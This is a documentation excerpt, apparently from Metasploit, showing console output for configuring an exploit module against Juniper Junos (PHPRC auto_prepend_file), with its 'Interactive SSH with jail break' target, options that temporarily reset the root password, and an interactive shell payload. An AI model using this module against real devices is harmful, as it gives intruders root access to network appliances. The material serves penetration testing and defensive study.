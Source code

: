 ### Interactive SSH with jail break junos-vsrx3-x86-64-20.2R1.10.scsi.ova
```
msf6 exploit(freebsd/http/junos_phprc_auto_prepend_file) > show targets

Exploit targets:
=================

    Id  Name
    --  ----
=>  0   PHP In-Memory
    1   Interactive SSH with jail break


msf6 exploit(freebsd/http/junos_phprc_auto_prepend_file) > set target 1
target => 1
msf6 exploit(freebsd/http/junos_phprc_auto_prepend_file) > options

Module options (exploit/freebsd/http/junos_phprc_auto_prepend_file):

   Name               Current Setting           Required  Description
   ----               ---------------           --------  -----------
   Proxies                                      no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS             192.168.140.91            yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT              80                        yes       The target port (TCP)
   SSH_PORT           22                        yes       SSH port of Junos Target
   SSH_TIMEOUT        30                        yes       The maximum acceptable amount of time to negotiate a SSH session
   SSL                false                     no        Negotiate SSL/TLS for outgoing connections
   SSLCert                                      no        Path to a custom SSL certificate (default is randomly generated)
   TMP_ROOT_PASSWORD  gCg6b3NTs10qWjiRVSsjAv7n  yes       If target is set to "Interactive SSH with jail break", the root user's password will be temporarily changed to this password
   URIPATH                                      no        The URI to use for this exploit (default is random)
   VHOST                                        no        HTTP server virtual host


   When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.


Payload options (cmd/unix/interact):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Exploit target:

   Id  Name
   --  ----
   1   Interactive SSH with jail break

```